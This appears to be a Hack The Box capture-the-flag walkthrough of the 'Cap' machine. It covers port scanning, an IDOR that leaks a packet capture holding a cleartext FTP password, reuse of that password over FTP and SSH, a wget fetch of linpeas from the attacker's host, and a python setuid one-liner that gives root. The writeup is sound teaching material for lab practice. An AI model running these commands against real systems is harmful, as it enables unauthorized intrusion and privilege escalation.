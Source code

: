# HTB - Cap

#### Ip: 10.10.10.245
#### Name: Cap
#### Rating: Easy

----------------------------------------------------------------------

Cap.png

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up:

```text
┌──(ryan㉿kali)-[~/HTB/Cap]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.245
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 12:52 CDT
Nmap scan report for 10.10.10.245
Host is up (0.075s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.90 seconds
```

Lets now scan these open ports using both the `-sV` and `-sC` flags to enumerate versions and to use basic scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Cap]
└─$ sudo nmap -sC -sV -T4 10.10.10.245 -p 21,22,80
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 12:56 CDT
Nmap scan report for 10.10.10.245
Host is up (0.065s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa80a9b2ca3b8869a4289e390d27d575 (RSA)
|   256 96d8f8e3e8f77136c549d59db6a4c90c (ECDSA)
|_  256 3fd0ff91eb3bf6e19f2e8ddeb3deb218 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
```

Navigating to the site we see a security dashboard and we appear to be logged in a user Nathan.

dashboard.png

Running a directory scan I find a few subdirectories:

```text
┌──(ryan㉿kali)-[~]
└─$ feroxbuster --url http://10.10.10.245 -q          
404      GET        4l       34w      232c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      389l     1065w    19386c http://10.10.10.245/
302      GET        4l       24w      208c http://10.10.10.245/data => http://10.10.10.245/
200      GET      355l     1055w    17446c http://10.10.10.245/ip
302      GET        4l       24w      220c http://10.10.10.245/capture => http://10.10.10.245/data/2
```

Interestingly, it looks like `/capture` is forwarding to `/data/2`. Lets check that out.

capture.png

So looks like there is some packet capturing going on here, and I have the ability to download this .pcap file and inspect it.

After not finding anything interesting in `/2` I tested for an IDOR vulnerability navigated to `/0` and was able to download that file and open it in WireShark. This was a more robust file and after poking around a bit I found an FTP login from Nathan:

wireshark.png


### Exploitation

nathan:Buck3tH4TF0RM3!

Cool, lets use these creds to login to FTP:

```text
┌──(ryan㉿kali)-[~/HTB/Cap]
└─$ ftp 10.10.10.245                                  
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:ryan): nathan
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||22185|)
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 May 27  2021 .
drwxr-xr-x    3 0        0            4096 May 23  2021 ..
lrwxrwxrwx    1 0        0               9 May 15  2021 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23  2021 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27  2021 .viminfo -> /dev/null
-r--------    1 1001     1001           33 May 08 17:51 user.txt
226 Directory send OK.
```
Interesting, appears to be a `/home` directory. Lets grab the user.txt file, and then see what else we can do with these credentials:

```text
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||49021|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |********************************************************************************|    33       16.39 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.47 KiB/s)
ftp> bye
221 Goodbye.
```

user_flag.png


Lets try using Nathan's credentials to login to SSH:

```text
┌──(ryan㉿kali)-[~/HTB/Cap]
└─$ ssh nathan@10.10.10.245                       
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ED25519) to the list of known hosts.
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-73-generic x86_64)
```
Nice, that worked! Let's try to escalate privileges to root now.

### Privilege Escalation

After manually checking out the box for a bit, nothing jumped out at me, so I started a Python webserver and transferred over LinPeas to further enumerate a privesc vector:

```text
nathan@cap:/tmp$ wget http://10.10.14.11/linpeas.sh
--2023-05-08 18:18:46--  http://10.10.14.11/linpeas.sh
Connecting to 10.10.14.11:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776967 (759K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                      100%[====================================================>] 758.76K  1.19MB/s    in 0.6s    

2023-05-08 18:18:47 (1.19 MB/s) - ‘linpeas.sh’ saved [776967/776967]

nathan@cap:/tmp$ chmod +x linpeas.sh
nathan@cap:/tmp$ ./linpeas.sh
```

Linpeas quickly finds a potential path:

linpeas.png

Cool, this should make for an easy privilege escalation. We can exploit the setuid capability by using:

```text
nathan@cap:/tmp$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:/tmp# whoami
root
```
And just like that we have root!

Lets grab the final flag:

root_flag.png

Thanks for following along!

-Ryan

----------------------------------------------------------------------------